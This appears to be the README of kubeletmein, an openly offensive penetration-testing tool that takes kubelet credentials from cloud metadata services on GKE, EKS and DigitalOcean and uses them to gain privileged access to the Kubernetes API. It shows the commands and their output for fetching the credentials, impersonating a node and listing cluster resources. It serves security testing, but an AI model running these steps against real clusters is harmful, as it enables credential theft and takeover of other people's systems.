 # Kubeletmein

This is a simple penetration testing tool which takes advantage of public cloud provider approaches to providing kubelet credentials to nodes in a Kubernetes cluster in order to gain privileged access to the k8s API. This access can then potentially be used to further compromise the applications running in the cluster or, in many cases, access secrets that facilitate complete control of Kubernetes.

## How it works

`kubeletmein` is a simple Go binary that is designed to be run from a pod inside your target cluster. Typically this will be either via exploiting a weakness in a web application running on Kubernetes or, perhaps an internal penetration test where the client has given you exec access into a pod.

It reads kubelet credentials from the cloud provider metadata and configures a kubeconfig file that you can use with `kubectl` to access the API.

There's more info in our blog post at [https://www.4armed.com/blog/hacking-kubelet-on-gke/](https://www.4armed.com/blog/hacking-kubelet-on-gke/).

## Supported providers

### GKE

GKE is fully supported and relies on the metadata concealmeant being disabled (the default setting).

### EKS

EKS support added by @airman604 based on the AWS EKS [bootstrap script](https://github.com/awslabs/amazon-eks-ami/blob/master/files/bootstrap.sh). This is a one step process and doesn't create a fake node, but rather impersonates the node on which the pod is running.

### Digital Ocean

By default, DO provides creds by metadata and this cannot be disabled.

### AKS

I should probably look at Azure at some point but....Microsoft. ;-)


## Installation

It's a single binary compiled for Linux. Download it with `cURL` or `wget` from the releases page at [https://github.com/4armed/kubeletmein/releases](https://github.com/4armed/kubeletmein/releases).

## How to

A breaking change in v0.11.0 and upwards means kubeletmein uses a single stage process for all providers. Therefore it just takes a single argument for the provider and, depending on the provider (i.e. not EKS) a node-name will be required to generate the certificate for.

### GKE

```
root@kubeletmein-vulnerable:/# kubeletmein gke -n foo
2021-03-04T22:25:52Z [ℹ]  fetching kubelet creds from metadata service
2021-03-04T22:25:52Z [ℹ]  writing ca cert to: ca-certificates.crt
2021-03-04T22:25:52Z [ℹ]  writing kubelet cert to: kubelet.crt
2021-03-04T22:25:52Z [ℹ]  writing kubelet key to: kubelet.key
2021-03-04T22:25:52Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig
2021-03-04T22:25:52Z [ℹ]  wrote bootstrap-kubeconfig
2021-03-04T22:25:52Z [ℹ]  using bootstrap-config to request new cert for node: foo
2021-03-04T22:25:53Z [ℹ]  got new cert and wrote kubeconfig
2021-03-04T22:25:53Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig get pods
NAME                     READY   STATUS    RESTARTS   AGE
kubeletmein-vulnerable   1/1     Running   0          12m
root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig get nodes
NAME                                                  STATUS   ROLES    AGE   VERSION
gke-kubeletmein-kubeletmein-vulnerabl-6623dbee-mgkd   Ready    <none>   11m   v1.18.12-gke.1210
```

Now you can use the kubeconfig, as it suggests.

```
kubectl --kubeconfig kubeconfig get pods
```

### EKS

On EKS we can impersonate current node in a single step using IAM authentication.

```
~ $ kubeletmein eks
2021-03-02T21:37:59Z [ℹ]  generating kubeconfig for current EKS node
2021-03-02T21:37:59Z [ℹ]  fetching cluster information from user-data from the metadata service
2021-03-02T21:37:59Z [ℹ]  getting IMDSv2 token
2021-03-02T21:37:59Z [ℹ]  getting user-data
2021-03-02T21:37:59Z [ℹ]  generating EKS node kubeconfig file at: kubeconfig
2021-03-02T21:37:59Z [ℹ]  wrote kubeconfig
2021-03-02T21:37:59Z [ℹ]  to use the kubeconfig, download aws-iam-authenticator to the current directory and make it executable by following the instructions at https://docs.aws.amazon.com/eks/latest/userguide/install-aws-iam-authenticator.html
2021-03-02T21:37:59Z [ℹ]  then try: kubectl --kubeconfig kubeconfig get pods
```

Now you can use the kubeconfig, as it suggests. Follow the instructions at
https://docs.aws.amazon.com/eks/latest/userguide/install-aws-iam-authenticator.html to download `aws-iam-authenticator`
(and make it executable), then run:

```
kubectl --kubeconfig kubeconfig get pods
```

### Digital Ocean

```
~ $ kubeletmein do -n whatevs
2018-12-12T23:34:19Z [ℹ]  fetching kubelet creds from metadata service
2018-12-12T23:34:19Z [ℹ]  writing ca cert to: ca-certificates.crt
2018-12-12T23:34:19Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig
2018-12-12T23:34:19Z [ℹ]  wrote bootstrap-kubeconfig
2018-12-12T23:34:19Z [ℹ]  now generate a new node certificate with: kubeletmein do generate
2018-12-12T23:36:46Z [ℹ]  using bootstrap-config to request new cert for node: whatevs
2018-12-12T23:36:46Z [ℹ]  got new cert and wrote kubeconfig
2018-12-12T23:36:46Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
```

## Testing

### Terraform

To simplify the process, if you want to fire up some clusters to test this on, there are example Terraform configurations provided in the `deploy/terraform` directory. There is one per cloud provider supported. You will need to provide credentials for the provider. If you're not sure how to do this head over to the Terraform website and checkout the relevant provider docs.

- AWS - (https://registry.terraform.io/providers/hashicorp/aws/latest/docs)[https://registry.terraform.io/providers/hashicorp/aws/latest/docs]

- GCP - (https://registry.terraform.io/providers/hashicorp/google/latest/docs)[https://registry.terraform.io/providers/hashicorp/google/latest/docs]

- Digital Ocean - (https://registry.terraform.io/providers/digitalocean/digitalocean/latest/docs)[https://registry.terraform.io/providers/digitalocean/digitalocean/latest/docs]

** NOTE - ONLY GKE IS CURRENTLY RELEASED, OTHERS ARE COMING VERY SOON **

Each folder has a `Makefile` you can use if you wish to init, plan and apply the configs. You can update the `terraform.tfvars` with the necessary changes or set `TF_VAR_xx` variables. However you prefer.

The plans will create a cluster and then deploy the `4armed/kubeletmein` container image in a pod. You can then exec into this pod and run the tool. Here is output from running this on GKE.

```bash
$ kubectl exec -ti kubeletmein-vulnerable bash
root@kubeletmein-vulnerable:/# kubeletmein gke -n foo
2021-03-04T22:25:52Z [ℹ]  fetching kubelet creds from metadata service
2021-03-04T22:25:52Z [ℹ]  writing ca cert to: ca-certificates.crt
2021-03-04T22:25:52Z [ℹ]  writing kubelet cert to: kubelet.crt
2021-03-04T22:25:52Z [ℹ]  writing kubelet key to: kubelet.key
2021-03-04T22:25:52Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig
2021-03-04T22:25:52Z [ℹ]  wrote bootstrap-kubeconfig
2021-03-04T22:25:52Z [ℹ]  using bootstrap-config to request new cert for node: foo
2021-03-04T22:25:53Z [ℹ]  got new cert and wrote kubeconfig
2021-03-04T22:25:53Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig get pods
NAME                     READY   STATUS    RESTARTS   AGE
kubeletmein-vulnerable   1/1     Running   0          12m
root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig get nodes
NAME                                                  STATUS   ROLES    AGE   VERSION
gke-kubeletmein-kubeletmein-vulnerabl-6623dbee-mgkd   Ready    <none>   11m   v1.18.12-gke.1210
```

## Contributing

Please submit pull requests on a separate branch. We welcome all improvements. It's not the world's best bit of code.

Please raise issues on GitHub if you find any, including feature requests.

## Disclaimer

This is intended for professional security testing or research. We subscribe to the DBAD philosophy.
